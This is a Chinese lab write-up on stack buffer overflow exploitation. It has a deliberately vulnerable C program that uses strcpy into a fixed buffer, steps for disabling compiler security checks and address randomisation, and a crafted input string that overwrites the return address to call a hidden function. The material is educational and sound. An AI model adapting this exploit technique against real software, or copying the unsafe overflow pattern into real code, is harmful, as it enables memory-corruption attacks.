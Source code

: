 # 缓冲区溢出-漏洞利用

# 实验目的

* 利用缓冲区溢出漏洞，执行本不应被调用的函数

# 实验环境

* VS2019

# 实验内容

## 预备

**关闭IDE的安全检查**

**设置固定基址**

* `链接器`->`固定基址`->`是`
* `链接器`->`随机基址`->`否`
* `链接器`->`基址`：填写任意基址（实验中以`0x40000000`为例）

## 漏洞利用

**漏洞代码**

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void hacked() {
	printf("hacked!!");
}

int sub(const char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

int main(int argc, char** argv)
{
	const char* str = "123456789101\x99\x99\x99\x99\x70\x15\x01\x40";
	sub(str);
	printf("exit");
}
```

**测试**

* (可选)输入任意造成缓冲区溢出长度的字串（e.g. `1234567891010789790`），确定覆盖`Return Address`的末尾字串

  <center><img src="./缓冲区溢出-漏洞利用/suffix.png" height=50px></center>
  * 执行`ret`命令时会将返回地址赋给`EIP`，需要做的就是覆盖为`hacked()`函数地址。而返回地址就在`EBP`指针之后
  
    <center><img src="./缓冲区溢出-漏洞利用/stack.png" height=350px></center>
  
* 查看`void hacked()`地址

  <center><img src="./缓冲区溢出-漏洞利用/hack.png" height=60px></center>

* 修改字串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40`

  <center><img src="./缓冲区溢出-漏洞利用/overflow.png" height=70px></center>
  
* 调试，在`sub()`退栈后跳到`hack()`函数

  <center><img src="./缓冲区溢出-漏洞利用/hackok.png" height=70px></center>

* 事实上，可以通过在字串后缀继续增加`\x70\x15\x01\x40`，来实现`hacked()`的多次执行。例如输入串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40\x70\x15\x01\x40`，`hacked()`函数就执行了两次

  <center><img src="./缓冲区溢出-漏洞利用/print.png" height=250px></center>
